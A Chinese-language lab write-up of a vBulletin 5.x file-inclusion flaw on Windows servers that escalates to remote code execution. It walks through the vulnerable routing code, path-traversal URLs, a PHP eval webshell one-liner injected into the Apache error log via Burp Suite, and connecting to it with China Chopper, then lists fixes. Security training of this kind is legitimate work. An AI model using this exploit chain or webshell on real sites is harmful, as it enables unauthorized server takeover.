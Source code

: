 # vBulletin 5.x 版本通杀远程代码执行

## 实验工具

Burp suite: Burp Suite 是用于测试web 应用程序的集成平台,本实验主要使用其抓包、改包、发包功能

## 实验内容

### 漏洞介绍

vBulletin中存在一个文件包含问题，可使恶意访问者包含来自 vBulletin 服务器的文件并且执行任意 PHP 代码。未经验证的恶意访问者可通过向index.php发出包含 routestring=参数的GET 请求，从而触发文件包含漏洞，最终导致远程代码执行漏洞

### 漏洞原理

index.php页面发送GET请求去使用routestring参数包含本地文件时，层层调用功能函数对routestring的值进行过滤，我们来看主要的处理代码。

该代码位于/includes/vb5/frontend/routing.php文件


    if  (strlen($path)  >  2  )
    {
        $ext = strtolower(substr($path,  -4))  ;
        if(($ext == '.gif') OR ($ext == '.png')OR($ext == '.jpg')  OR ($ext == '.css') OR (strtolower(substr($path,-3)) == '.js'))
        {
          header("HTTP/1.0 404 Not Found");
          die('');
        }
    }

这段代码判断routestring获取的值是否以.gif, .png, .jpg, .css or .js结尾，如果是则头部信息返回404


    if  (strpos($path,  '/')  ===  false)
     {
        $this->controller  =  'relay';
        $this->action  =  'legacy';
        $this->template  =  '';
        $this->arguments  =  array($path);
        $this->queryParameters  =  array();
        return;
    }

这段代码中strpos()函数返回/字符在$path中第一次出现的位置，若返回信息为false才会继续处理，也就是说路径中不能出现/。

对于Linux服务器，处理URL时，/表示目录层的分隔、表示符，所以此处无法以多个../的方式包含网站中的其他文件。但是对于Windows服务器，/和\在表达路径时，是等价的，而程序并没有对\进行处理，所以导致本次针对Windows服务器的文件包含漏洞。

### 影响版本

版本号 vBulletin v5.x版本 漏洞发现者已联系厂商，暂未得到回复

本实验仅做安全漏洞研究，请勿对未授权网站进行恶意破坏！！

## 实验步骤

接下来的实操部分，我们将逐步深入漏洞的理解和利用，先利用页面报错，获取服务器相关信息；再包含服务器内部文件，执行phpinfo()验证代码执行；最后包含写入PHP一句话的网站日志文件，获取网站管理权限。

步骤1 漏洞验证

这一步，我们简单利用报错获取服务器信息，然后利用漏洞去包含执行phpinfo()函数进行验证。

打开目标网址172.16.12.2/vb5/index.php,访问漏洞页面，查看报错信息。

在浏览器中打开172.16.12.2/vb5/index.php?routestring=.\\。

可以看见页面使用require_once()包含当前路径(C:\phpstudy\WWW\vb5/core/.\\)时不被允许而报错，报错信息泄露了网站的绝对路径，以及网站搭建软件：phpstudy

phpstudy 搭建网站时，默认会在网站根目录留下 l.php和phpinfo.php文件，通常网站管理员会删除或者修改这两个文件

因为 \还有转义的含义，而表示路径时\\和\是等价的，所以我们使用\\防止被转义（本实验\也可完成）

访问 phpinfo.txt文件

此处为了验证包含漏洞，网站根目录下存有phpinfo.txt文件，内容为<?php phpinfo();?>,我们尝试直接访问该文件，http://172.16.12.2/phpinfo.txt

网站直接将文本内容显示出来了

包含 phpinfo.txt文件

我们接着尝试包含该文件,打开构造的链接http://172.16.12.2/vb5/index.php?routestring=\\..\\..\\..\\..\\..\\..\\phpstudy\\WWW\\phpinfo.txt

此处我们已知晓网站在服务器上的绝对路径，所以使用多个..\\加上文件路径，表示被包含文件的网站路径，包含该文件后，服务器将文件当做php文件进行解析，执行了phpinfo()函数。

phpinfo():PHP内置函数，输出PHP服务器的配置信息

步骤2 漏洞利用

一般情况下，PHP文件包含漏洞利用的方式都是先利用网站上传点，上传含有恶意代码的文件，然后找到上传后的文件路径，构造URL，通过包含漏洞执行恶意代码。但是，如果网站本身无可利用的上传点，或者对上传的文件做了限制，使得我们无法获知文件的路径，亦或者对输入时获取的参数做出过滤，这种方法就行不通了。

由上述可知，程序对包含的文件后缀做出了限制，在没有其他利用的情况下，我们可以选择包含网站本身存在文件的方式，也就是本次实验的利用方式：包含网站日志文件

本次包含的是Apache的错误访问日志（error.log）,这个日志文件在phpstudy中的路径为: \phpstudy\apache\logs\error.log。

将一句话写入日志记录

首先，我们构造一个会报错的访问链接，将利用代码（PHP一句话）写入错误日志记录中。

http://172.16.12.2/vb5/index.php<?php @eval($_POST[c]);?>

这个链接直接访问的话，一句话会被编码成%3C?php%20@eval($_POST[c]);?%3E，所以需要使用Burp suite改一下包。

使用Everything搜索BurpLoader.jar，双击打开工具Burp suite。

配置浏览器的代理设置：

打开桌面的chrome浏览器，访问chrome://settings或者点击浏览器右侧的自定义按钮--》设置，进入设置界面

点击下方的显示高级设置,找到更改代理服务器设置按钮并打开，在弹出的设置中选择局域网设置

具体配置如下图，修改后确定

配置完代理后，在浏览器中访问上述构造的链接，Burpsuite接受到数据包会自动截获，打开Burpsuite--》proxy--》Intercept，在下方文本框中，右击并选择Send to Repeater，随后点击Repeter功能按钮，对所截获的包进行修改。

1

我们将被编码的链接改回编码之前的状态，修改后的内容如下：

点击 Go按钮发送，返回403报错，服务器错误日志文件成功将此次记录到error.log中

我们已经成功的将利用代码写入日志中了

注意利用代码的正确性，如果写入错误的代码可能会导致后续包含时，代码不能成功执行

现在，将Burpsuite关闭，并按照上述设置浏览器代理的方法关闭代理

构造Webshell连接地址

我们根据日志的路径构造访问路径:

http://172.16.12.2/vb5/index.php?routestring=\\..\\..\\..\\..\\..\\..\\phpstudy\\apache\\logs\\error.log

客户端连接一句话

接下来就使用中国菜刀连接我们的一句话，使用Everything搜索并打开chopper,右击，选择添加，在地址栏内填入我们构造好的链接，右侧写入密码c,类型选择 PHP（Eval）,然后点击添加。

双击链接，连接成功（此处如果连接不上请检查写入的代码是否正确，代理是否关闭）

包含日志文件需要确定的服务器日志路径，通常管理员会修改相关配置，而且写入代码时需要注意严格的格式和编码，所以这种方法不作为优选利用方法，但是在没有其他利用点的情况下，也是可以尝试的

实验结果分析与总结

通过本次实验，我们知道了vBulletin漏洞产生的原因在于代码编写时对windows系统的忽略，而造成该代码执行漏洞的根本原因其实是文件包含漏洞，不过我们因此学习了文件包含漏洞到远程代码执行的过程，并且掌握了包含系统日志的利用方法。
在漏洞的深入学习中，我们需要清楚的认识到不能忽视任何漏洞，通过挖掘隐藏的信息，漏洞的危害也会被无限放大，当一条路行不通时，可以选择换一条思路，殊途同归。

修复方案

    (1) 等待官方发布补丁，个人用户建议采用可替代的相关产品

    (2) 企业用户可修改网站源代码，增加\字符的过滤处理

    (3) 网站管理人员可以修改服务器本身敏感信息文件位置，避免漏洞的进一步利用

思考

    (1) 文件包含的利用方式非常多，你还知道有哪些利用方式？
    (2) 和代码执行漏洞一起披露的还有任意文件删除漏洞，聪明的你一定会自己尝试做一做。

参考链接

https://blogs.securiteam.com/index.php/archives/3569
